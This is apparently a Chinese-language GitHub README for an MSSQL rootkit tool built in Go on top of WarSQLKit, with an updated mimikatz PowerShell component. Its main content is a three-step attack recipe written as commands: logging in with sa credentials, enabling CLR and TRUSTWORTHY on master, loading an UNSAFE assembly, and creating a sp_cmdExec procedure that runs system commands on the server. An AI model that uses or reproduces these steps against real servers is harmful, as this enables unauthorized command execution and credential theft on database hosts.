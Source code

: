  目的主要是摆脱MSSMS和 Navicat 调用 sql 语句,  顺便学习 golang-mssql 编程



在原有项目(https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit)做了更新

- 使用脚本查询可以获取返回值, 之前只能获取消息, 所以很依赖工具执行 sp_cmdExec
- 更新 mimikatz_powershell 至2020版本



基于狼师傅的工具(http://wolvez.club/2019/09/19/mssql-command-tool/)稍微改了下程序

1. OpenCLR

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q "sp_configure 'clr enabled', 1;RECONFIGURE;ALTER DATABASE master SET TRUSTWORTHY ON;"
```



2. Load_ASSEMBLY

```
CREATE ASSEMBLY [WarSQLKit] AUTHORIZATION [dbo] FROM 0x4D5A9... WITH PERMISSION_SET = UNSAFE;
```



3. Create_StoredProcedure

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q 'CREATE PROCEDURE [dbo].[sp_cmdExec] @cmd NVARCHAR (MAX), @result NVARCHAR (MAX) OUTPUT AS EXTERNAL NAME [WarSQLKit].[StoredProcedures].[CmdExec];'
```

4. 🤣🤣🤣🤣🤣🤣

![Xnip2020-07-05_13-38-07](README.assets/Xnip2020-07-05_13-38-07.png)

![Xnip2020-07-05_13-42-09](README.assets/Xnip2020-07-05_13-42-09.png)

![Xnip2020-07-05_13-44-39](README.assets/Xnip2020-07-05_13-44-39.png)